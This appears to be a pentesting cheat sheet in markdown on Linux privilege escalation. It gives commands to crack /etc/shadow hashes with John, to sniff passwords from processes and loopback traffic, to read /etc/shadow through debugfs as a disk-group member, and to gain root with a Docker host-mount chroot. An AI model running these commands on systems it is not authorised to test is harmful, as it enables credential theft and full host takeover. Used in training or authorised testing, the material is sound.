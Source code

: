 #### crack the hash

crack that hashes it the following files:
- /etc/passwd
- /etc/shadow

you can use John with unshadow commands
#### inspect services footprint

maybe there is footprint of service that revels the credentials

```
watch -n 1 "ps -aux | grep pass"
```

capture traffic in and out of the loopback interface
```
sudo tcpdump -i lo -A | grep "pass"
```

#### Groups

to check membership 
```
id
```

Interesting Groups:
- disk - read ssh keys, hashes in shadow file...
```
# check where / mounted

dora@dora:/tmp$ df -h
df -h
Filesystem                         Size  Used Avail Use% Mounted on
/dev/mapper/ubuntu--vg-ubuntu--lv  9.8G  5.1G  4.3G  55% /
udev                               947M     0  947M   0% /dev
tmpfs                              992M     0  992M   0% /dev/shm
. . .

# connect to mountand and cat /etc/shadow (for example)

dora@dora:/tmp$ debugfs /dev/mapper/ubuntu--vg-ubuntu--lv
debugfs /dev/mapper/ubuntu--vg-ubuntu--lv
debugfs 1.45.5 (07-Jan-2020)
debugfs:  cat /etc/shadow
```
- adm - can read log file (apache log files: /var/log/apache2)
- sudo
- Shadow
- Staff 
- fail2ban
- Video
- Root
- Docker
```
 # list images
docker image

# chose an image and run
docker run -it --rm -v /:/mnt <imagename> chroot /mnt bash 
```
- lxc/lxd
- Auth
